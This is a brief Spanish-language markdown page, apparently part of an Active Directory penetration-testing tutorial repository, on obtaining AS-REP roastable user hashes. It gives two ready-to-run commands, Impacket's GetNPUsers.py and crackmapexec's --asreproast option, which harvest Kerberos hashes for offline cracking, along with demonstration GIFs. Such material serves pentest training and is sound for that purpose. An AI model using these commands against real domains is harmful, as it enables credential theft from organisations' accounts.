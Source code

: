 # Obteniendo ASEREPROastable users hash

```Bash
python /usr/share/doc/python3-impacket/examples/GetNPUsers.py <nombre dominio completo>/ -no-pass -usersfile <txt de lista de usuarios>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/ASREPRoast/files/vid.gif?raw=true "hash ASREP con GetNPUsers")

```Bash
poetry run crackmapexec ldap <direccion ip> -u <txt de lista de usuarios> -p '' --asreproast <output.txt>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/ASREPRoast/files/vid2.gif?raw=true "hash ASREP con Crackmapexec")
